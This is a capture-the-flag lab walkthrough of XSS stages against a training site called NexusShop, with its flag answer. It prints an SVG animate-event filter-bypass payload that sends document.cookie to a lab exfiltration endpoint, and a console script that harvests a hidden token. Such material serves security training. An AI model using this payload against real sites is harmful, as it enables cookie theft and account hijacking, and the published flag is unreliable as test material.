Objective: Use the confirmed SVG animation bypass to transmit data to NexusShop's designated C2 endpoint.

### 1. Execute the payload

Remain on the Advanced tab.

Replace the search input with:

```svg
<svg><animate attributeName=x dur=1s onbegin='fetch("/attacker/api/exfil",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({type:"cookies",data:document.cookie||"no-readable-cookie",level:1,stage:3})}).then(r=>console.log("STAGE3_EXFIL_STATUS:",r.status)).catch(e=>console.error("STAGE3_EXFIL_ERROR:",e))'></animate></svg>
```

Click Search.

### 2. Understand the payload

| Component            | Purpose                                       |
| -------------------- | --------------------------------------------- |
| `<svg><animate>`     | Creates the SVG animation                     |
| `attributeName=x`    | Specifies the animated attribute              |
| `dur=1s`             | Sets the animation duration                   |
| `onbegin`            | Executes JavaScript when the animation begins |
| `fetch()`            | Sends an HTTP request to the C2 endpoint      |
| `method:"POST"`      | Sends data in the request body                |
| `document.cookie`    | Retrieves JavaScript-readable cookies         |
| `no-readable-cookie` | Fallback when no readable cookies exist       |
| `level:1,stage:3`    | Identifies the lab level and Stage 3          |
| `.then()`            | Logs the HTTP response status                 |
| `.catch()`           | Reports any request errors                    |

Unlike Stage 2, this payload does not depend on a failed image request. It uses an SVG animation event to trigger execution.

### 3. Verify the request

Open DevTools → Network → XHR.

Look for:

```
POST /attacker/api/exfil
```

Inspect the request payload and response.



The screenshot confirms that the SVG animation XSS successfully transmitted data to the lab C2 endpoint.

## 1. Evidence analysis

| Verification     | Result                          |
| ---------------- | ------------------------------- |
| Correct endpoint | `/search/advanced`              |
| Technique        | SVG `<animate onbegin>`         |
| C2 request       | `POST /attacker/api/exfil`      |
| HTTP status      | `200 OK`                        |
| Server response  | `Data exfiltrated successfully` |
| Console output   | `STAGE3_EXFIL_STATUS: 200`      |

The server has acknowledged receiving the data.

## Stage 3: Step 3, Submit the tracking token and retrieve the flag

Objective: Submit the Stage 3 tracking token to `/search/api/track` and inspect the server's response for the Task 0 flag.

### 1. Execute this command

Stay on the current `/search/advanced` page.

Open DevTools → Console and execute:

```js
(async () => {
    const token = document
        .getElementById("tracking-id")
        ?.textContent.trim();

    console.log("STAGE3_TOKEN_FOUND:", Boolean(token));

    if (!token) {
        console.error("Tracking token not found");
        return;
    }

    const response = await fetch(
        "/search/api/track?t=" + encodeURIComponent(token)
    );

    const body = await response.text();

    console.log("STAGE3_TRACK_STATUS:", response.status);
    console.log("STAGE3_TRACK_RESPONSE:", body);
})().catch(console.error);
```

### 2. Command explanation

| Component                       | Purpose                                                  |
| ------------------------------- | -------------------------------------------------------- |
| `getElementById("tracking-id")` | Locates the hidden tracking token                        |
| `textContent.trim()`            | Extracts the token without surrounding whitespace        |
| `Boolean(token)`                | Verifies that a nonempty token exists                    |
| `encodeURIComponent(token)`     | Safely encodes the token in the URL                      |
| `fetch()`                       | Sends the token to NexusShop's tracking API              |
| `response.status`               | Retrieves the HTTP response code                         |
| `response.text()`               | Retrieves the full response, including any returned flag |

### 3. Why this works

The tracking token is stored inside the page's DOM:

```
<div id="tracking-id" style="display:none">
    TRACKING_TOKEN
</div>
```

Although `display:none` hides the element visually, it does not prevent JavaScript from accessing its contents.

Our command extracts that value and submits it to the application's tracking endpoint.

The lab instructions indicate that Stage 3's tracking response contains the flag, so we must examine the actual response body rather than assuming a `200 OK` status means the task is complete.





The screenshot confirms successful Stage 3 tracking and flag retrieval.

## 1. Verification results

| Verification         | Result    |
| -------------------- | --------- |
| Stage 3 SVG XSS      | Passed    |
| C2 exfiltration      | `200 OK`  |
| Tracking token found | `true`    |
| Tracking submission  | `200 OK`  |
| Tracking status      | `tracked` |
| Flag retrieved       | Confirmed |

The server returned:

```json
{
  "ref": "FLAG{5a492ce1de7b835a9e370f8a25a394cd}",
  "status": "tracked"
}
```


## Overall exploitation summary

| Stage | Technique                      | Result |
| ----- | ------------------------------ | ------ |
| 1     | Direct `<script>` injection    | Passed |
| 2     | `` filter bypass  | Passed |
| 3     | SVG `<animate onbegin>` bypass | Passed |

All three stages demonstrated JavaScript execution and successful requests to the lab C2 endpoint. Stage 2's request contained `no-readable-cookie`, so that evidence establishes data transmission rather than theft of an actual cookie.

The underlying vulnerability across all stages is improper handling of untrusted user input in an HTML execution context.


```bash
echo 5a492ce1de7b835a9e370f8a25a394cd > 0-flag.txt
git add .
git commit -m "0-flag.txt"
git push
```

